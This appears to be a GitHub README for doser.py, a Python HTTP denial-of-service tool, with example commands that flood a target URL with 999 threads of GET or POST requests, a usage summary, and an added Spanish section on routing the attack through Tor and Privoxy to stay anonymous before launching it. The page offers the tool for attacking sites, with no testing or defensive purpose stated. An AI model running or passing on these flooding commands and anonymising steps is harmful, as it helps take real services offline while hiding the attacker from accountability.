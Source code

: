 # doser.py
DoS tool for HTTP requests (inspired by hulk but has more functionalities) written in Python:
![](https://raw.githubusercontent.com/Quitten/doser.py/master/doser.jpg)

# Examples
999 threads sends GET requests:

```bash
python doser.py -t 999 -g 'https://targeted.site.com'
```

999 threads sends POST requests with json data:

```bash
python doser.py -t 999 -p 'https://targeted.site.com' -ah 'Content-Type: application/json' -d '{"json": "payload"}'
```

# Usage
usage: doser.py [-h] [-g G] [-p P] [-d D] [-ah AH] [-t T]

optional arguments:

  -h, --help  show this help message and exit
  
  -g        Specify GET request. Usage: -g '< url >'
  
  -p        Specify POST request. Usage: -p '< url >'
  
  -d        Specify data payload for POST request
  
  -ah      Specify addtional header
  
  -t        Specify number of threads to be used
  
  
Pasos para usar doser.py anonimamente
1-instalar tor

apt-get install tor

2-instalar privoxy

apt-get install privoxy

Editar el archivo /etc/privoxy/config

descomentar las siguientes lineas:
listen-address 127.0.0.1:8118
listen-address [::1]:8118
forward-socks5t / 127.0.0.1:9050 .

3-clonar el siguiente repositorio:
git clone https://github.com/robertofocke/doser.py

4-lanzar el ataque con “python doser-proxy.py”
